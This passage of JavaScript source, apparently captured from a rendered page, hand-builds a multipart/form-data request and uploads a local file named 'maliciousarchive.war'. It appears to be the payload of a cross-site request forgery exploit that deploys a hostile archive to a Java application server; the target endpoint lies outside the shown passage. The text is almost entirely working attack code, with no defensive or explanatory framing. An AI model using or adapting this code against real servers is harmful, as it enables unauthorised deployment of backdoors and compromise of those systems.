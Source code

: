 ```js

        }
      }
    }

    var body = "";

    for (var i in additionalFields) {
      if (additionalFields.hasOwnProperty(i)) {
        body += addField(i, additionalFields[i], boundary);
      }
    }

    body += addFileField(fileFieldName, fileData, fileName, boundary);
    body += "--" + boundary + "--";
    xhr.sendAsBinary(body);
    return true;
}

function addField(name, value, boundary) {
  var c = "--" + boundary + "\r\n"
  c += 'Content-Disposition: form-data; name="' + name + '"\r\n\r\n';
  c += value + "\r\n";
  return c;
}

function addFileField(name, value, filename, boundary) {
    var c = "--" + boundary + "\r\n"
    c += 'Content-Disposition: form-data; name="' + name + '"; filename="' + filename + '"\r\n';
    c += "Content-Type: application/octet-stream\r\n\r\n";
    c += value + "\r\n";
    return c;
}

function getBinary(file){
  var xhr = new XMLHttpRequest();
  xhr.open("GET", file, false);
  xhr.overrideMimeType("text/plain; charset=x-user-defined");
  xhr.send(null);
  return xhr.responseText;
}

function readBinary(data) {

var tmp = '';
    for (var i = 0; i < data.length; i++) tmp += String.fromCharCode(data.charCodeAt(i) &
0xff);
    data = tmp;
    return tmp;
    }

function start() {
  var c = getBinary('maliciousarchive.war');
  fileUpload(c, "maliciousarchive.war");

}
```
